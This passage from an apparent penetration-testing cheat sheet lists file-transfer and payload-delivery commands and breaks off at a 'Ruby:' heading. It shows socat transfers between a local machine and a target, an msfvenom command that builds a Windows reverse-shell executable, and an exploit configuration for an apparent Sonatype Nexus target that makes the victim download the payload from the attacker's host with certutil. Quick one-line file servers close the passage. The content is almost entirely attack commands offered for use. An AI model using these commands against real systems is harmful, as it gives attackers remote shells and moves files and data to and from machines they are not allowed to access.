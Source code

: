 ### Method 10 (Socat) | Linux -> Linux

On **LOCAL**:

```
# socat TCP4-LISTEN:<LPORT>,fork file:<FILE_NAME>
```

On **TARGET**:

```
# socat TCP4:<LHOST>:<LPORT> file:<FILE_NAME>, create
```

##

### Method 11 (CertUtil) | Linux -> Windows

***Direct reverse shell:***

On **LOCAL**:

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o <FILENAME>.exe
``` 

On **TARGET** ***e.g. Sonatype Nexus***:

```
URL='http://<RHOST>:8081'
CMD='cmd.exe /c certutil -urlcache -split -f http://<LHOST>/<FILENAME>.exe <FILENAME>.exe'
USERNAME='<USERNAME>'
PASSWORD='<PASSWORD>'
```

***Don't forget to modify the exploit again.***

-------------------------------------------------------------

### File Servers

**Python 2.x:**

```
# python -m SimpleHTTPServer <LPORT>
```

**Python 3.x:**

```
# python3 -m http.server <LPORT>
```

**PHP:**

```
# php -S 0.0.0.0:<LPORT>
```

**Ruby:**
